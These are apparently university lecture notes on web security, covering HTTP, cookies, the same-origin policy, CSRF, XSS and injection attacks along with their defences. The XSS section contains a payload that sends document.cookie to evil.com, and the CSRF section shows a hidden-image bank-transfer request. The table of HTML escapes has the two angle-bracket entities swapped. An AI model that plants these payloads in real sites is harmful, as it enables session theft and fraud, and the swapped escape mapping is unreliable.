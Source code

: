 $$
% Display
\newcommand{\ds}{\displaystyle}
\newcommand{\ob}{\overbrace}
\newcommand{\ub}{\underbrace}
\newcommand{\code}{\texttt}

% Colours
\newcommand{\red}[1]{\textcolor{red}{#1}}
\newcommand{\redt}[1]{\textcolor{red}{\text{#1}}}
\newcommand{\blue}[1]{\textcolor{blue}{#1}}
\newcommand{\bluet}[1]{\textcolor{blue}{\text{#1}}}
\newcommand{\green}[1]{\textcolor{green}{#1}}
\newcommand{\greent}[1]{\textcolor{green}{\text{#1}}}

% Typefaces/Text-styles
\newcommand{\mc}{\mathcal}
\newcommand{\mf}{\mathfrak}
\newcommand{\b}{\mathbf}
\newcommand{\bs}{\boldsymbol}

% Fractions
\newcommand{\f}{\frac}

% Positioning
\newcommand{\l}{\left}
\newcommand{\m}{\middle}
\newcommand{\r}{\right}

% Logic
\newcommand{\n}{\not}
\newcommand{\eq}{\equiv}
\newcommand{\xor}{\oplus}

% Sets
\newcommand{\fa}{\forall}
\newcommand{\te}{\exists}
\newcommand{\empty}{\varnothing}
\newcommand{\set}[1]{\l\lbrace#1\r\rbrace}
\newcommand{\setb}[2]{\l\lbrace#1\ \m| \ #2\r\rbrace}
\newcommand{\bb}{\mathbb}
\newcommand{\R}{\bb{R}}
\newcommand{\N}{\bb{N}}
\newcommand{\Z}{\bb{Z}}
\newcommand{\Q}{\bb{Q}}
\newcommand{\C}{\bb{C}}

% Derivatives
\newcommand{\d}[1]{\mathrm{d}#1}
\newcommand{\deriv}[2]{\f{\d{#1}}{\d{#2}}}
\newcommand{\pderiv}[2]{\f{\partial #1}{\partial #2}}

% Sums/Integrals
\newcommand{\s}[3]{\sum_{#1}^{#2}#3}
\newcommand{\i}[4]{\int_{#1}^{#2}#3\ \d{#4}}

% Probability
\newcommand{\p}[1]{\bb{P}\l(#1\r)}
\newcommand{\cp}[2]{\p{#1\m|#2}}
\newcommand{\jp}[2]{\p{#1,#2}}
\newcommand{\e}[1]{\bb{E}\l[#1\r]}
\newcommand{\var}[1]{\text{Var}\l[#1\r]}
\newcommand{\sd}[1]{\text{SD}\l[#1\r]}
\newcommand{\cov}[2]{\text{Cov}\l[#1,#2\r]}

% Binomials
\newcommand{\ch}{\binom}
\newcommand{\pbin}[3][{}]{\l(#2 + #3\r)^#1}
\newcommand{\mbin}[3][{}]{\l(#2 - #3\r)^#1}

% Linear Algebra
\newcommand{\T}{\mathsf{T}}
\newcommand{\seq}[4][{}]{#2_{#3}#1 \ldots #1 #2_{#4}}
\newcommand{\rowv}[3]{\l(\seq[,]{#1}{#2}{#3}\r)}
\newcommand{\colv}[3]{\rowv{#1}{#2}{#3}^\T}
\newcommand{\sqpmat}[3][{}]{
    \begin{pmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{pmatrix}
}
\newcommand{\sqmat}[3][{}]{
    \begin{matrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{matrix}
}
\newcommand{\sqbmat}[3][{}]{
    \begin{bmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{bmatrix}
}
\newcommand{\sqpmat}[3][{}]{
    \begin{pmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{pmatrix}
}
\newcommand{\sqvmat}[3][{}]{
    \begin{vmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{vmatrix}
}
\newcommand{\sqVmat}[3][{}]{
    \begin{Vmatrix}
		#2_{1{#1}1} & #2_{1{#1}2} & \cdots & #2_{1{#1}j} & \cdots & #2_{1{#1}#3} \\
		#2_{2{#1}1} & #2_{2{#1}2} & \cdots & #2_{2{#1}j} & \cdots & #2_{2{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{i{#1}1} & #2_{i{#1}2} & \cdots & #2_{i{#1}j} & \cdots & #2_{i{#1}#3} \\
		\vdots & \vdots & \ddots & \vdots & \ddots & \vdots \\
		#2_{#3{#1}1} & #2_{#3{#1}2} & \cdots & #2_{#3{#1}j} & \cdots & #2_{#3{#1}#3} \\
	\end{Vmatrix}
}
$$

[TOC]

# Web security

## HTTP requests

After establishing a TCP connection to a web server, a client can send **==HTTP requests==** to the server. These requests consist of:

- A start line consisting of:
  - a keyword such as `GET` or `POST`.
  - a route to request from the server.
  - HTTP version.
- Headers
- Body consisting of request data, e.g. parameters in the case of `POST` requests.

<p style="text-align:center;">
    <img src="./assets/http-request.png" width="70%"></img>
	<br>
	<p style="text-align:center;">
    <b>Figure 1</b>: A typical HTTP <code>POST</code> request. (<a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Messages">source</a>)
	</p>
</p>


**Note**: HTTP requests and responses are delivered via TCP over port 80. The standard HTTP does not provide any means of data encryption—meaning that an attacker can intercept the packets being sent between a client and server, and gain full access to any information that was being transmitted, acting as a man-in-the middle.

## HTTP responses

After receiving and interpreting a request message, a server responds with a **==HTTP response==** message of similar structure to the request—consisting of:

- A start line consisting of:
  - a HTTP version
  - a status code
  - a status message
- Headers
- Message body (normally a HTML document)

<p style="text-align:center;">
    <img src="./assets/http-response.png" width="60%"></img>
	<br>
	<p style="text-align:center;">
    <b>Figure 2</b>: A typical HTTP response. (<a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Messages">source</a>)
	</p>
</p>

## State in HTTP sessions

HTTP is **==stateless==**—when a client sends a request, the server sends back a response, but the server does not hold any information on previous requests.

However, this is an issue since lots of web applications require a client to access various pages before completing a specific task. In this case, the client state should be kept along all of those pages—how does the server know if two requests came from the same browse?

The idea to solve this is to insert some token into the page when it is requested, and pass the token back with the next request. There are two main approaches to maintaining a session between a web client and a web server:

- Use **hidden fields**.
- Use **cookies**.

### Hidden fields

This approach involves placing a **==hidden field==** in a HTML form. This hidden field contains a session ID in all of the HTML pages sent to the client. The hidden field will be returned back to the server in the request (once the form is submitted).

| **Advantages**                       | **Disadvantages**                                            |
| ------------------------------------ | ------------------------------------------------------------ |
| All web browsers support HTML forms. | Requires careful and tedious programming effort—all of the pages must be dynamically generated to include this hidden field. |
|                                      | Session ends as soon as the browser is closed.               |

### Cookies

A **==cookie==** is a small piece of information that a server sends to a browser and is stored inside the browser. A cookie has a name and a value, along with other attributes such as domain, path, expiration date, version number and comments.

The browser automatically includes the cookie in all subsequent requests made through the browser to the originating host of the cookie. Cookies are only **sent back by the browser to their originating host and not any other hosts**—the domain and path specify which server (and path) to return the cookie to.

A server can set the cookie's value to uniquely identify a client. Hence, cookies are commonly used for session and user management. In addition to session management, cookies can also be used to hold personalised information, or to help in online sales services, e.g. shopping cart.

| **Advantages** | **Disadvantages**                           |
| -------------- | ------------------------------------------- |
|                | Users may disable cookies in their browser. |

### Setting cookies

Cookies are set on the client's when the server uses the `Set-Cookie` field in the HTTP header of its response. A cookie has several attributes:

- `name`: The name-value of the cookie.
- `expires`: When to delete the cookie.
- `domain` and `path`: Tells the browser what website the cookie belongs to. 
- `Secure`: Whether to send the cookie.
- `HttpOnly`: If enabled, scripting languages cannot access or manipulate the cookie.

### Cookie domains and hosts

A cookie is valid for the domain it is set for, and all its subdomains.

A subdomain may access cookies set for a higher-level domain but not vice-versa.

> **Example**:
>
> - `mail.example.com` can access cookies set for `example.com`
> - `example.com` cannot access cookies set for `mail.example.com`

Hosts can access cookies set for their TLDs, but hosts can only set cookies one level up in the domain hierarchy.

> **Example**:
>
> - `one.mail.example.com` can access cookies set for `example.com`
> - `one.mail.example.com` cannot set cookies for `example.com`

A website can only set a cookie for domain that matched the domain of the HTTP response. Additionally, if the `domain` and `path` attributes of the cookie are not specified by the server, they default to the domain and path of the resource that was requested.

## Security goals

Web applications should provide the same security guarantees as those required for standalone applications. 

The main web application **security goals** are:

- Visiting any website should not infect a computer with malware, or read and write files.

  **Defences**: 

  - Javascript is sandboxed—limits the scope of what a script can do.
  - Bugs are avoided in the browser's code.
  - Privilege separation.

- Visiting one website should not compromise sessions (or cookies in general) for another website.

  **Defences**:

  - Same-origin policy—each website is isolated from all other websites.

- Sensitive data stored on any website should be protected.

## Session hijacking

**==Session hijacking==** is the exploitation of a valid computer session to gain unauthorised access to information or services in a computer system.

Sessions can be compromised in different ways—the most common are:

- **Session token theft vulnerabilities** - This type of vulnerability can occur when:
  - Session tokens are predictable.<br>*Ideally, cookies should be unpredictable*.
  - A website uses a mixture of HTTPS and HTTP pages, and a token is sent over HTTP.
  - Cross-site-scripting (XSS) vulnerabilities.
- **Cross-site request forgery (CSRF) vulnerabilities**

### Cross-site request forgery (CSRF)

**==Cross-site request forgery (CSRF)==** forces a user to execute unwanted actions on a web application in which they are currently authenticated.

CSRF attacks target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request.

**Target**: A user who has an account on a vulnerable server.

**Attack**: 

1. Build an exploit URL.
2. Trick the victim into making a request to the vulnerable server—as if intentional.

**Attacker's tools**:

- Ability to get the user to click the exploit link.
- Ability to have the victim visit the attacker's server while logged in to the vulnerable server.

For a CSRF attack to work, it is essential that requests to the vulnerable server have predictable structure.

> **Example**: The website for a bank allows transfers for a currently logged in account. The transfer requests look like:
>
> ```http
> GET http://bank.com/transfer.do?acct=bob&amount=100 HTTP/1.1
> ```
>
> An attacker can craft a URL to transfer money from a victim's account to their own, and plant this URL on their own website:
>
> ```http
> http://bank.com/transfer.do?acct=attacker&amount=100000
> ```
>
> For example, as the source URL for an image, which will cause the client to attempt to load the image by requesting the resource from the server. This will perform a transfer in the background.
>
> ```html
> <img src="http://bank.com/transfer.do?acct=attacker&amount=100000" width="0" height="0">
> ```

#### CSRF defences

- **Check the referrer**: A HTTP request can contain a `referrer` field in its header. Checking the `referrer` field in the client's HTTP requests can prevent CSRF attacks.

  Ensuring that the HTTP request has come from the original site means that attacks from other sites will not function.

- **Include a secret**: Including a secret in every link or form can prevent CSRF attacks. This secret can be:

  - in the form of a hidden form field
  - in the form of a custom HTTP header
  - encoded directly in the URL

  It is essential that this secret is **unpredictable**. This means that it can also have the same value as the session token.

- **Set the `SameSite` cookie attribute**: This attribute prevents cookies from being sent in cross-site requests. However, this is a very recent standard and might not be supported by all browsers.

### Cross-site scripting

#### Accessing the DOM

The **==Document Object Model (DOM)==** is an interface of HTML elements (including cookies) to the outside world.

The API for the `document` or `window` elements can be used to manipulate the document itself or to get at the children of that document.

> **Example**:
>
> - Display an alert message by using the `alert()` function from the `window` object:
>
> ```html
> <body onload="window.alert('welcome to my page!');")></body>
> ```
>
> - Display all the cookies associated with the current document in an alert message:
>
> ```html
> <body onload="window.alert(document.cookie);")></body>
> ```
>
> - Send all the cookies associated with the current document to the `evil.com` server if `x` points to a non-existent image:
>
> ```html
> <img src=x onerror="this.src='http://evil.com/exploit.php?'+document.cookie"></img>
> ```

#### Same-origin policy (SOP)

The **==same-origin policy (SOP)==** prevents a malicious script on one page from obtaining access to sensitive data on another webpage through that page's DOM—each origin is kept isolated (**sandboxed**) from the rest of the web.

An **==origin==** is defined by its **scheme**, its **host**, and the **port** of a URL.

- The SOP restricts the access to the DOM of a web resource to scripts loaded from the same origin.
- Under the SOP, a browser permits scripts contained in a first webpage to access data in a second webpage, but only if both webpages have the same origin.
- Cross-site HTTP requests initiated from within scripts are subject to SOP restriction for security reasons.

#### Cross-site scripting attacks

**==Cross-site scripting (XSS) attacks==** are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.

The goal of the attacker is to insert code into the browser under the guise of conforming to the same-origin policy:

1. A website $S_1$ provides a malicious script.
2. The attacker tricks the vulnerable server $S_2$ to send the attacker's script to the target victim's browser.
3. The victim's browser believes that the script's origin is $S_2$.
4. The malicious script runs with $S_2$'s access privileges.

XSS attacks can generally be categorised into two categories **stored** and **reflected**.

#### Stored XSS attacks

**==Stored XSS attacks==** are those where the injected script is **permanently stored on the target server**, such as in a database, in a message forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored information.

#### Reflected XSS attacks

**==Reflected XSS attacks==** are those where the injected script is **reflected off the web server**, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

Reflected attacks are typically delivered to victims via another route, such as in an email or on some other website.

The key to the reflected XSS attack is to find a good web server that will echo the user input back in the HTML response.

> **Example**:
>
> Input from `eve.com`:
>
> ```http
> http://vulnerabletoreflextedXSS.com/search.php?term=hello
> ```
>
> Result from `vulnerabletoreflectedXSS.com`:
>
> ```html
> <html>
> <title>Search results</title>
> <body>
>  Results for hello: 
>  ...
> </body>
> </html>
> ```

#### XSS defences

- **Escape/filter output**: Escape dynamic data before inserting it into HTML.

  > **Example**:
  > $$
  > \begin{matrix}
  > 	\texttt{<} & \to & \texttt{&gt;}\\
  > 	\texttt{>} & \to & \texttt{&lt;}\\
  > \end{matrix}
  > \qquad\qquad
  > \begin{matrix}
  > 	\texttt{&} & \to & \texttt{&amp;}\\
  > 	\texttt{"} & \to & \texttt{&quot;}\\
  > \end{matrix}
  > $$
  > Or remove any `<script>`, `</script>`, `<javascript>`, `</javascript>` tags.

  **Note**: This is error prone due to there being many ways to introduce Javascript.

  > **Example**:
  >
  > ```html
  > <div style="background-image:url(javascript:alert('JavaScript'))"></div>
  > ```

- **Input validation**: Check that inputs (headers, cookies, query strings, form fields and hidden fields) are of expected form.

- **==Content Security Policy (CSP)==**: CSP is an added layer of security that helps to detect XSS and data injection attacks. This works by having the server supply a whitelist of scripts that are allowed to appear on the page.

- **`Http-Only` cookie attribute**: If enabled, scripting languages cannot access or manipulate the cookie.

## Server-side attacks

**==Server-side attacks==** are attacks launched directly from an attacker (the client) to a listening service—most commonly a server.

## Injection attacks

**==Injection attacks==** such as SQL, OS, and LDAP injection occur when untrusted data is sent to an interpreter as part of a command or query. The attacker's hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorisation.

### Command injection

**==Command injection==** is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the server that is running an application, and typically fully compromise the application and all its data.

#### Defences

- Include input validation, input escaping and sanitising, and restricting the power of an API.
- Separate the data and code channels—the web server should be operating with the most restrictive permissions as possible: read, write and execute permissions only to necessary files.

### SQL injection

**==SQL injection==** works similarly to command injection—but rather than code being injected to execute arbitrary operating system commands, the code manipulates SQL commands.

#### Defences

- **Sanitise input** before using it to construct database queries.

- **Prepared statements**.

  The idea behind prepared statements is that the query and the data should be sent to the server separately.

  This works by creating a template of the SQL query, in which data values are substituted. This helps by ensuring that the untrusted value is not interpreted as a command.

  > **Example**:
  >
  > ```php
  > $result = pg_query_params(
  > conn,
  > "SELECT * from user_accounts  WHERE username = $1 AND password = $2",
  > array($GET['user'], $GET['pwd'])
  > );
  > ```

# Resources

- *Myrto Arapinis, Markulf Kohlweiss, Kami Vaniea, Roberto Tamassia, Aggelos Kiayias (University of Edinburgh)*<br/>[Computer Security (INFR10067)](http://www.drps.ed.ac.uk/18-19/dpt/cxinfr10067.htm)
- *Mozilla Corporation*<br/>[HTTP Messages](https://developer.mozilla.org/en-US/docs/Web/HTTP/Messages)
